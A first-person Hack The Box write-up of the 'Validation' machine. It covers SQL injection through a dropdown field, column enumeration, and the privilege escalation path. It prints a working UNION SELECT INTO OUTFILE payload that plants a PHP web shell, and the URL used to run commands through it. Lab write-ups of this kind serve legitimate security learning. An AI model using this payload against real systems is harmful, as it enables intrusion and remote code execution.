









# Hack The Box - Validation | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** SQL Injection &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Author:** Jithin Jelson

---

This was my first fully successful box at HackTheBox. I often find the boxes to be quite difficult, however because I was able to learn a lot of SQL injection techniques on HackTheBox Academy and PortSwigger, I was able to root this box.

---

## Attack Overview


### Reconnaissance

First, I got the target IP address by spawning the target. Once the target was available, I ran an Nmap scan to see what ports were open. I came across an HTTP port, so I presumed a website would be available on this box.

> **Note:** Normally I would enumerate all the endpoints before exploitation, but since I was purposefully looking for SQL injection boxes, the main page itself gave a good idea of where the injection should be placed.

The main page had a login screen where you would enter your name and then select a country, and then you would be greeted with a page like the following.


*Figure 1 - The greeting page shown after logging in*

---

## Finding the Injection Point

I first decided to check the name input to see if the SQL injection could be placed there.


*Figure 2 - Testing the name input field for SQL injection*

However, I did not receive any SQL error and my name just became whatever payload I entered.


*Figure 3 - The name input simply reflects the payload back, no SQL error*

So the only straightforward field for me to check was the dropdown box. Although we cannot edit the dropdown box manually, by using Burp Suite we were able to edit the dropdown field and trigger an SQL error.


*Figure 4 - Editing the dropdown field in Burp Suite to trigger an SQL error*

---

## Finding the Number of Columns

The next step in SQL injection methodology was to find the number of columns. We can do this in one of two ways: using the ORDER BY method or using the UNION SELECT method. I used the UNION SELECT method.

Rather than using payloads like `UNION SELECT 1,2,3 -- -`, I recently learned from PortSwigger that using `UNION SELECT NULL,NULL,NULL -- -` is a better approach. It maximises our opportunity to get an injection working because it avoids data type mismatch errors.

I initially went with two NULLs as I was expecting multiple columns from previous SQL exercise habits, but after trying it with 7 NULLs I figured I was doing something wrong and eventually I realised it was actually just 1 column.


*Figure 5 - Testing UNION SELECT NULL to find the number of columns*

When I used just one column, the error went away.


*Figure 6 - Confirming a single column with UNION SELECT NULL*

---

## Exploitation Methodology

Usually my methodology once I locate the correct number of columns is to:

- Find out what database the app is using
- List all the databases using `information_schema`
- List all the tables in each database
- List the columns inside a table
- Retrieve the data
- Check for file privileges
- Check for super privileges
- Read the app source code to find the web root
- Create a web shell

But since this was an easy box, I presumed I would not have to do all of this. I assumed the database user would have root access, and the initial SQL error message had already shown me the web root directory (`/var/www/html/`).

---

## Writing a Web Shell

So I went and wrote a web shell to give myself access.


*Figure 7 - Writing the PHP web shell to the server via UNION SELECT INTO OUTFILE*

```sql
cn' UNION SELECT "","<?php system($_REQUEST[0]); ?>","","" INTO OUTFILE '/var/www/html/shell.php'-- -
```

And then when I put the following into the address bar to access my web shell, it was a success.

```
http://IP:PORT/shell.php?0=id
```


*Figure 8 - Confirming remote code execution via the web shell*

---

## User Flag

I then proceeded to enumerate my findings to locate the user flag.

```
cat ../../../home/htb/user.txt
```

Now I needed to get the root flag. I initially tried to access the `/root` directory directly through my web shell, but I was restricted by file permissions.


*Figure 9 - File permissions blocking direct access to the root directory*

---

## Privilege Escalation

Because of this, I decided to catch a reverse shell so I could properly enumerate the system and escalate my privileges. First, I set up a listener on my machine at port 4444 using Netcat. Then, I used curl to trigger the web shell, passing it a URL-encoded Bash reverse shell command to connect back to me.


*Figure 10 - Setting up the Netcat listener and triggering the reverse shell*


*Figure 11 - Reverse shell successfully caught*

And just like that I got my reverse shell.

I then searched the config file to see if there were any passwords and I came across credentials.


*Figure 12 - Credentials discovered in the config file*

So I used the credentials to escalate my privileges to super user using `su -`.


*Figure 13 - Escalating privileges to root*

Once I was super user I was able to get the final flag.


*Figure 14 - Retrieving the root flag*

---

<sub>Write-up by <b>Jithin Jelson</b></sub>
